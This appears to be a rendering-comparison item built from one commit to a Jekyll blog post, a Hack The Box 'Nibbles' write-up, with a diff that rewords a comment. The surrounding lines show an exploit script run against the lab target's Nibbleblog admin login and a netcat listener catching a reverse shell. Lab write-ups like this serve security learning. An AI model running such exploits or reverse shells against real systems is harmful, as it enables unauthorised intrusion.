

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-04-HTB-Nibbles-Write-up.md, in a window 1280 px wide and 900 px high, scrolled down 6544 px. Shown: the part 142-450 px from the top of the window, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2024-11-04-HTB-Nibbles-Write-up.md

````diff
--- a/_posts/2024-11-04-HTB-Nibbles-Write-up.md
+++ b/_posts/2024-11-04-HTB-Nibbles-Write-up.md
@@ -203,7 +203,7 @@ python3 exploit.py --url http://10.129.146.200/nibbleblog/ --username admin --pa
 ```
 
 ```shell
-# Visit the uploaded shell.php to trigger our nc listener and get shell access
+# Our nc listener will get triggered and grant us shell access as the user nibbler
 listening on [any] 8080 ...
 ls
 connect to [10.10.14.206] from (UNKNOWN) [10.129.146.200] 52964
````
